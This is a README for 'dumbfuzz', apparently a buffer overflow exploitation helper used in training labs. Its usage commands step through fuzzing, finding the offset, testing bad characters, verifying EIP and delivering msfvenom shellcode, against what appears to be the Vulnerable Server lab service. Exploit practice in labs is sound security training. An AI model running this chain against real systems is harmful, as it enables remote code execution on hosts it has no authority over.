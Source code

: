 # dumbfuzz

A dumb buffer overflow fuzzing script that integrates fuzzing, finding offset, bad character testing, verifying EIP, and sending shellcode:
- Implemented the unique sequence generation based on Rapid7's `pattern_create.rb -l & -q` MSF tool for locating offset
- You can directly copy & paste `msfvenom`'s BoF shellcode into a `.txt` file and load it up (Yeap, direct output including words like `unsigned char` and quotes)
- Built-in Little Endian conversion for EIP values so you don't have to calculate manually

## Fuzz

```python
python .\main.py --target 192.168.217.133 --port 9999 --prefix "TRUN /.:/"  --mode fuzz
```

## Offset + EIP

```python
python .\main.py --target 192.168.217.133 --port 9999 --prefix "TRUN /.:/"  --mode offset --length 2400
```

## Bad Character Tests

```python
python .\main.py --target 192.168.217.133 --port 9999 --prefix "TRUN /.:/"  --mode badchar --length 2003
```

## Verify EIP offset

```python
python .\main.py --target 192.168.217.133 --port 9999 --prefix "TRUN /.:/"  --mode verify --length 2003
```

## Shellcode

```python
python .\main.py --target 192.168.217.133 --port 9999 --prefix "TRUN /.:/"  --mode shellcode --length 2003 --shell_file shell.txt --eip 625011af
```
